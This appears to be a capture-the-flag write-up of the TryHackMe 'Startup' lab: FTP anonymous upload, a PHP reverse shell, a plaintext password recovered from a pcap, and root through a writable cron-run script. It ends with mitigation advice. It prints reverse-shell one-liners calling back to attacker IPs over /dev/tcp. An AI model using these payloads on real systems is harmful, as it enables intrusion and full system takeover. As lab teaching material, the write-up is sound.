## 📖 Introduction

This writeup documents the process of compromising the **Startup** machine from TryHackMe.

The lab focuses on exploiting a misconfigured FTP service that allows file upload, leading to Remote Code Execution (RCE). Further enumeration reveals sensitive network traffic containing credentials, which are used to gain access to another user and escalate privileges to root.

---

## 🔍 Reconnaissance

The first step is to identify open ports and exposed services on the target machine. This helps us understand the attack surface and identify potential entry points.

To achieve this, an Nmap scan was performed using the following command:

```bash
nmap -sC -sV 10.129.140.31
```


This scan revealed several open ports and services:

- FTP (21/tcp) -> Anonymous login enabled
- SSH (22/tcp)
- HTTP (80/tcp)

The FTP service immediately stands out as a potential entry point. The scan indicates that anonymous access is allowed and reveals the presence of files such as:

- `important.jpg`
- `notice.txt`

This suggests that the FTP server is misconfigured and may allow file interaction, making it a strong candidate for initial access.

Although the web service (port 80) is also available, no useful information is observed at this stage, so the focus remains on the FTP service for further exploitation.

---

## 📂 Enumeration

To continue the assessment, the FTP service was accessed using anonymous credentials:

```bash
ftp 10.129.140.31
```


Anonymous login was successful, confirming the misconfiguration identified during the reconnaissance phase.

Once inside the FTP server, basic enumeration was performed using commands such as:

```bash
ls
```

Although some files were present, they did not provide any immediately useful information. However, further inspection revealed that the `ftp` directory had write permissions, allowing file uploads.

At this point, attention shifted to the web service to understand how uploaded files might be exposed.

Directory enumeration was performed using Gobuster:
```bash
gobuster dir -u http://10.129.140.31 -w /usr/share/wordlists/dirb/small.txt
```


This revealed the `/files` directory.

Accessing this directory in the browser showed that it was linked to the FTP upload location. More specifically:

```bash
htttp://10.129.140.31/files/ftp/
```

This indicates that the files uploaded via FTP are publicly accesible through the web server, creating a potential path for exploitation.

---

## 💥 Exploitation

To gain initial access, a PHP reverse shell was created:

```bash
echo '<?php system("bash -c '\''bash -i >& /dev/tcp/TU_IP/4444 0>&1'\''"); ?>' > shell.php
```

The file was then uploaded to the writable FTP directory:

```bash
put shell.php
```

Since the FTP directory is exposed via the web server, the file can be accessed through the browser:

```bash
http://10.129.140.31/files/ftp/shell.php
```


On the attacker machne, a listener was started using Netcat:

```bash
nc -lvnp 4444
```

By accessing the uploaded PHP file, a reverse shell connection was established successfully.

The initial shell obtained is limited and does not provide full terminal functionality. To improve usability, a pseudo-terminal (PTY) was spawned using Python:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


This command upgrades the shell, allowing better interaction, command history, and proper terminal behavior.

---

## 🧠 Post-Exploitation

After gaining access to the target machine, further enumeration was performed to identify interesting files and directories.

During this process, a directory named `/incidents` was discovered, which appeared unusual and worth investigating.



Listing its contents revealed a network capture file:

- `suspicious.pcapng`

Direct access to the file was restricted, so an alternative approach was used to retrieve it. Since the FTP directory is writable and exposed via the web server, the file was copied to a publicly accessible location:

```bash
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
```
Once copied, the file became accessible through the browser:

```bash
http://10.129.140.31/files/ftp/suspicious.pcapng
```
The file was then downloaded to the attacker machine for further analysis.

The captured file was analyzed using Wireshark:

```bash
wireshark suspicious.pcapng
```


During the analysis, multiple TCP streams were inspected using the Follow → TCP Stream feature.

This allowed reconstruction of the communication between systems, revealing commands executed on the target machine.

Within one of the streams, a failed **sudo** attempt was observed, followed by a password entered in plain text:

```bash
[sudo] password for www-data:
c4ntg3t3n0ughsp1c3
```


This indicates that sensitive credentials were transmitted over the network without encryption, making them visible in the capture file.

The discovered password was then used to attempt access to other users on the system.

**This highlights the risk of transmitting sensitive information over unencrypted channels, as it can be easily intercepted and analyzed.**

---

### 🔐 Privilege Escalation

Using the credentials discovered during the traffic analysis phase, access to the `lennie` user was obtained:

```bash
su lennie
```
After switching to the **lennie** user, further enumeration was performed within the home directory. This revealed a directory named **scripts**, containing a file called **planner.sh**.

Inspecting the contents of this file:

```bash
cat /home/lennie/scripts/planner.sh
```


It was observed that the script executes another file located at:

```bash
/etc/print.sh
```
This is particularly interesting because it suggests that **print.sh** is executed automatically, likely by a privileged user (root).

Further inspection of the file permissions showed that the **lennie** user has write access to **/etc/print.sh**, which presents an opportunity for privilege escalation.

To exploit this, a reverse shell payload was written into the file:

```bash
echo 'bash -i >& /dev/tcp/10.129.122.137/4445 0>&1' > /etc/print.sh
```

A listener was then started on the attacker machin:

```bash
nc -lvnp 4445
```
Once the script was executed automatically by the system, a reverse shell was received with root privileges.



This allowed full access to the system as root.

Finally, with root privileges obtained, the `root.txt` file was accessed, successfully completing the challenge and confirming full system compromise.



---

## 🧾 Conclusion

This room demonstrates how multiple small misconfigurations can be chained together to achieve full system compromise.

The attack began with an exposed FTP service that allowed anonymous access and file uploads, leading to remote code execution through a web-accessible directory. 

Further enumeration revealed sensitive network traffic stored on the system, which exposed credentials in plain text. These credentials were then reused to gain access to another user.

Finally, a misconfigured script executed with elevated privileges allowed privilege escalation to root, completing the attack.

This lab highlights the importance of:
- Securing file upload mechanisms
- Avoiding the transmission of sensitive data over unencrypted channels
- Properly managing permissions on scripts executed by privileged users

Overall, it provides a clear example of how attackers combine enumeration, exploitation, and privilege escalation techniques to compromise a system.

---

## ⚠️ Impact

- Remote attackers can upload malicious files and achieve Remote Code Execution (RCE)
- Exposure of sensitive data through unencrypted network traffic
- Unauthorized access to user accounts via credential leakage
- Full system compromise through privilege escalation (root access)

---

## 🛡️ Mitigation

- Disable anonymous FTP access and restrict file upload permissions
- Ensure uploaded files are not publicly accessible or executable via the web server
- Use encryption (e.g., SSH, HTTPS) to protect sensitive data in transit
- Apply the principle of least privilege to system users and scripts
- Regularly audit and secure scripts executed with elevated privileges


> 🔒 This lab highlights how small misconfigurations can lead to full system compromise.


